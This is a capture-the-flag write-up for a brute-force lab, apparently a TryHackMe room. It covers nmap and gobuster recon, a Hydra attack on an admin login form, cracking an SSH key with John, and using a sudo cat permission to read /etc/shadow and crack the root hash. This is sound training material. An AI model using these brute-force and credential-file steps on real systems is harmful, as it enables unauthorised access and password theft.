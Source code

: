 ```yaml
---
layout: post
author: Fr4nSec
tags: [Linux, HTTP POST]
---
```


## Objectives

- Username and password of the admin panel
- User flag
- Web flag
- root password
- root flag


## Recon

Let's scan the target IP address..

```
nmap -p 22,80 -sCV 10.10.201.153 > PortScan
cat PortScan
```
![scan1](/images/bruteit/scan1.png)

Port 80 is open. Let's see what's there:

```
gobuster dir -u http://10.10.201.153:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![gobuster](/images/bruteit/gobuster.png)

There is something at /admin (http://10.10.201.153/admin)

![adminpanel](/images/bruteit/adminpanel.png)

Always check the source code

![sourcecode](/images/bruteit/sourcecode.png)




## Exploitation

Now we know the username is **'admin'** and notice the payload of the POST request. We can use this to brute force the login page. For this we will need a word from a failed attempt.

![request](/images/bruteit/request.png)

And we use Hydra to brute force

```
hydra -l admin -P /home/kali/rockyou.txt 10.10.201.153 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid"
```

![hydra](/images/bruteit/hydra.png)

We cracked the password of the panel admin account. Let's access.

![flag0](/images/bruteit/flag0.png)

 We have a flag now and a RSA private key that we can download. Let's crack it.
 
 ![john](/images/bruteit/john.png)
 
 Now we use the SSH Key to access the target (remember to make sure the SSH Key has the correct permissions.
 
 To change permissions:
 
 ```
chmod 600 id_rsa
```
 
 Let's connect:
 
 ```
ssh -i id_rsa john@10.10.201.153
```
 
 ![ssh1](/images/bruteit/ssh1.png)
 

## Privilege escalation

 In these situations, one of the first things i usally do is to check if the user has any privilege with sudo
 
 ```
sudo -l
```

![sudo](/images/bruteit/sudo.png)

It seems that this user can use 'cat' as sudo! That means we can read anything!

 ```
sudo cat /etc/shadow | grep root > roothash
cat roothash
```

![cat](/images/bruteit/cat.png)

We can now crack the hash:

 ```
john roothash --wordlist=/home/kali/rockyou.txt
```

![crack](/images/bruteit/crack.png)

